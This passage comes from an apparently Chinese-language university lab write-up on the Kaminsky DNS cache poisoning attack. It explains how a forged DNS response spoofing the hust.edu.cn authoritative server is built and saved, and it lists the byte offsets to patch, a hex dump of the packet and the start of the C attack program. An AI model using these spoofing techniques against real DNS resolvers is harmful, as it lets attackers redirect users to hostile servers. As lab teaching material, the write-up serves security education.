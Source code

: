 ```python
# Save the packet to a file
with open('dns_response.bin', 'wb') as f:
	f.write(bytes(pkt))
```

- 源`IP`应为`hust.edu.cn`的权威域名服务器，因为伪造的是`hust.edu.cn`的权威域名服务器向本地`DNS`服务器的响应，但此处仅作填充，具体地址将在`C`程序中进行修改。使用`dig www.hust.edu.cn`可知`hust.edu.cn`的权威域名服务器分别为`dns1.hust.edu.cn: 202.114.0.120`和`dns2.hust.edu.cn: 59.172.234.181`（见下图或`2.4.2-获取权威DNS域名服务器.pcapng`），留待后续使用：

![2.4.2.权威域名服务器](https://raw.githubusercontent.com/BIIIANG/pic/main/202205040216930.png)

- 目标`IP`即为目标`DNS`服务器的`IP 172.18.0.3`。
- 源端口应为`53`，因为该报文为伪造的`DNS`响应报文，本应由`DNS`服务器由`53`号端口发出。
- 目标端口为`33333`，此处简化了攻击，假设目标`DNS`服务器每次询问都使用不变的`33333`端口。
- 授权部分的域名，即为要攻击的域`hust.edu.cn`。
- 请求和回答部分的域名，应与伪造的`DNS`请求包相对于，此处仅为占位，需要在`C`程序中进行响应修改。
- 此外，由于目标`DNS`服务器发出的`DNS`请求的`ID`是未知的，攻击时要进行猜想，因此`ID`部分应在`C`程序中进行相应修改，此处仅进行占位。
- 根据以上信息构造`DNS`回应报文，并将其完整报文保存到`dns_response.bin`文件中，留待`C`程序使用。
- 为了在`C`程序中对以上提到的源`IP`、`DNS`响应的`ID`、问题部分的域名、回答部分的域名做出修改，需要得到需要修改的部分的偏移位置，因此使用`xxd`或`Bless Hex Editor`查看`dns_response.bin`如下，可知：
  - 源`IP: 201.91.180.3 (0Xc95bb403)`起始位置相对于文件头的偏移为十进制的`12`；
  - `DNS`响应的`ID: 0Xaaaa`起始位置相对于文件头的偏移为十进制的`28`；
  - 问题部分的域名起始位置相对于文件头的偏移为十进制的`41`；
  - 回答部分的域名起始位置相对于文件头的偏移为十进制的`64`。

```shell
[05/04/22]seed@VM:~/.../2022.04.15.DNS$ ./generate_dns_response.py 
[05/04/22]seed@VM:~/.../2022.04.15.DNS$ xxd -c 10 dns_response.bin 
00000000: 4500 0087 0001 0000 4011  E.......@.
0000000a: 0000 c95b b403 ac12 0003  ...[......
00000014: 0035 8235 0073 0000 aaaa  .5.5.s....
0000001e: 8400 0001 0001 0001 0000  ..........
00000028: 0562 6961 6e67 0468 7573  .biang.hus
00000032: 7403 6564 7502 636e 0000  t.edu.cn..
0000003c: 0100 0105 6269 616e 6704  ....biang.
00000046: 6875 7374 0365 6475 0263  hust.edu.c
00000050: 6e00 0001 0001 0002 8b0a  n.........
0000005a: 0004 0b6f 6f6f 0468 7573  ...ooo.hus
00000064: 7403 6564 7502 636e 0000  t.edu.cn..
0000006e: 0200 0100 028b 0a00 1002  ..........
00000078: 6e73 0778 7562 6961 6e67  ns.xubiang
00000082: 036e 6574 00              .net.
```

### 2.4.3 发动`Kaminsky`攻击

- 运行以上两个`python`程序后，得到`DNS`询问和响应包模板`dns_request.bin`和`dns_response.bin`和修改模板所需要的偏移信息。
- `remote_dns_attack.h`：

```c
#include <unistd.h>
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <errno.h>
#include <fcntl.h>
#include <libnet.h>
#include <netinet/udp.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <stdint.h>
#include <inttypes.h>

/* IP Header */
```